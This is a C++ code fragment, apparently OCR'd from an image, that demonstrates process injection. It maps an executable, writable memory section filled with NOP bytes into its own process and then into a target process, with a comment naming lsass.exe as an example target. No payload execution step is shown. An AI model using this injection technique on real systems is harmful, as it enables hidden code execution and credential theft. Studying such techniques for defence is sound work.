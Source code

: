 ```cpp
    SIZE_T viewSize = 0;
    status = NtMapViewOfSection(
        hSection,
        GetCurrentProcess(),
        &baseAddress,
        0,
        0,
        NULL,
        &viewSize,
        ViewUnmap,
        0,
        PAGE_EXECUTE_READWRITE
    );

    if (status != 0) {
        printf("NtMapViewOfSection (self) failed with status: 0x%X\n", status);
        CloseHandle(hSection);
        FreeLibrary(hNtdll);
        return 1;
    }

    // Write a simple payload or message into the shared section
    memset(baseAddress, 0x90, viewSize);

    // Now map this section into the target process (e.g., lsass.exe)
    DWORD targetPid = 4;
    HANDLE hTargetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPid);
    if (!hTargetProcess) {
        printf("Failed to open target process\n");
        NtUnmapViewOfSection(GetCurrentProcess(), baseAddress);
        CloseHandle(hSection);
        FreeLibrary(hNtdll);
        return 1;
    }

    PVOID remoteBaseAddress = NULL;
    status = NtMapViewOfSection(
        hSection,
        hTargetProcess,
        &remoteBaseAddress,
        0,
        0,
        NULL,
        &viewSize,
        ViewUnmap,
        0,
        PAGE_EXECUTE_READWRITE
    );

    if (status != 0) {
        printf("NtMapViewOfSection (remote) failed with status: 0x%X\n", status);
        CloseHandle(hTargetProcess);
        NtUnmapViewOfSection(GetCurrentProcess(), baseAddress);
        CloseHandle(hSection);
        FreeLibrary(hNtdll);
        return 1;
    }

    printf("Section mapped into target process at address: %p\n", remoteBaseAddress);

    // Cleanup
    NtUnmapViewOfSection(GetCurrentProcess(), baseAddress);
    NtUnmapViewOfSection(hTargetProcess, remoteBaseAddress);
```